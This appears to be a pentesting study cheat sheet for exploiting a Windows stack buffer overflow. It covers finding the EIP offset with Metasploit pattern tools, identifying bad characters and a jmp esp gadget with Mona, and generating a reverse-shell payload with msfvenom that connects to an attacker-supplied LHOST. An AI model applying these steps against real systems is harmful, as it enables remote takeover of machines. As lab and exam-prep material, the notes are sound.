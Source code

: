 If you need to receive data, add s.recv(1024)



Setup Mona

```bash
!mona config -set workingfolder c:\mona\%p
```

Send patterned texts to buffer overflow

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <num>
```

Check offset with EIP

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP>
```

Send "A" * offset + "B" * 4 and make sure EIP is 42424242

Generate badarray with mona in Immunity debugger

```bash
!mona bytearray -b "\x00<and other bad char>"
```

Send all chars as payload and see which is bad char

```python
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
```

```bash
!mona compare -f C:\mona\appname\bytearray.bin -a <ESP>
```

Find jmp esp

```bash
!mona jmp -r esp -cpb "\x00<and other bad chars>"
```

Make payload

```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<port> EXITFUNC=thread -b "\x00<and other bad chars>" -f c
```

Also you can use windows/meterpreter/reverse_tcp and get shell with multi/handler.(Don't forget to set payload!)



### meterpreter

- convert a shell to meterpreter shell

  ```bash
  post/multi/manage/shell_to_meterpreter
  ```

